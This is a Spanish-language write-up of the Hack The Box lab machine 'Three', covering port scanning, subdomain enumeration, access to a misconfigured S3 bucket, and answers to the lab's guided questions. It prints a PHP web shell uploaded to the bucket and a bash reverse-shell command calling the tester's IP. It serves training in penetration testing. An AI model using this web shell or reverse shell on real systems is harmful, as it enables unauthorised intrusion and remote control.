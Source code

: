 ```yaml
---
title: Writeup three - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - three
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina three en Hack The Box.
keywords:
  - writeup three
  - hack the box three
  - resolución máquina three
  - three hack the box
  - htb three
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Three)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=jVak5k46ODM)|[Parte2](https://www.youtube.com/watch?v=k6nprw1Ol_w)                                                                                                             
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=sGjqDbMId3U)

-----

#easy #linux #ping #nmap #nvim #sudo #/etc/hosts #aws #reverseshell #whatweb  #gobuster #cat

---
# Guided Mode

1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el dominio de la dirección de correo electrónico facilitada en la sección «Contacto» del sitio web?
	thetoppers.htb

3)En ausencia de un servidor DNS, ¿qué archivo de Linux podemos utilizar para resolver nombres de host en direcciones IP con el fin de poder acceder a los sitios web que apuntan a esos nombres de host?
	/etc/hosts

4)¿Qué subdominio se descubre durante la enumeración posterior?
	s3.thetoppers.htb
	
5)¿Qué servicio se ejecuta en el subdominio descubierto?
	amazon s3

6)¿Qué utilidad de línea de comandos puede utilizarse para interactuar con el servicio que se ejecuta en el subdominio descubierto?
	awscli

7)¿Qué comando se utiliza para configurar la instalación de la CLI de AWS?
	aws configure

8)¿Cuál es el comando utilizado por la utilidad anterior para listar todos los buckets de S3?
	aws s3 ls
	
9)¿Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?
	php

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.227.248
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.227.248 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.227.248 -oN target
```

![[Three1.png]]

![[Three2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22` [[ssh]]
	`80` HTTP

------
# [[Whatweb-wappalyzer]]
![[Three3.png]]
Nos da el mail con dominio thetoppers.htb que lo vamos a agregar a etc/hosts para probar

------
# Agregar dominio a /etc/hosts

Vamos a ejecutar con [[nvim]] y [[sudo]] el comando `sudo nvim /etc/hosts` para modificar el archivo abriendolo como root
```
10.129.227.248 thetoppers.htb
```

![[Three4.png]]

--------

# Enumeracion de subdominios con [[Gobuster]]

```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

![[Three5.png]]
Como resultado tenemos s3.thetoppers.htb

-----
# Agregar subdominio a /etc/hosts

Vamos a ejecutar con [[nvim]] y [[sudo]] el comando `sudo nvim /etc/hosts` para modificar el archivo abriendolo como root

```
10.129.182.45 s3.thetoppers.htb
```

![[Three6.png]]

Ahora entramos a la pagina `http://s3.thetoppers.htb/` y ya nos va a cargar
![[Three13.png]]

-------
# Carga de archivo malisioso con [[aws]]

Vamos a acceder a los contenedores de amazon s3, y ver sus contenidos para enumerar un poco, podemos ver que estos son los archivos de la pagina principal, asi que vamos a cargar posteriormente un archivo que nos permita ejecutar comandos

Con el primer comando al ver que nos responde thetoppers.htb sabemos que esta hosteando la pagina victima, asi que vamos a intentar cargar y/o modificar archivos
Con el segundo comando visualizamos el contenido del directorio

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls --no-sign-request
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb --no-sign-request
```

![[Three7.png]]



#### Cargamos el archivo [[archivo php inyección comandos]]

Contenido del archivo exploit.php
```
<?php system($_GET["cmd"]); ?>
```

Ahora con este comando de [[aws]] vamos a cargar el archivo exploit.php
```
aws --endpoint-url=http://s3.thetoppers.htb s3 cp exploit.php s3://thetoppers.htb --no-sign-request
```

![[Three8.png]]

Desde la maquina victima, vamos a hacer una prueba para ver si funciona el archivo que cargamos

http://thetoppers.htb/exploit.php?cmd=id
![[Three9.png]]
Como podemos ver nos muestra nos responde, asi que el archivo cumple su funcion correctamente


-------
# [[Reverse shell]]

Desde la maquina victima vamos a ejecutar el siguiente link `http://thetoppers.htv/exploit.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'`

![[Three11.png]]

Mientras que desde nuestra maquina vamos a estar en escucha con [[nc -nlvp 443]]

![[Three12.png]]
Una vez dentro de la maquina cateamos la flag

----------
# Creditos
Writeup oficial HackTheBox
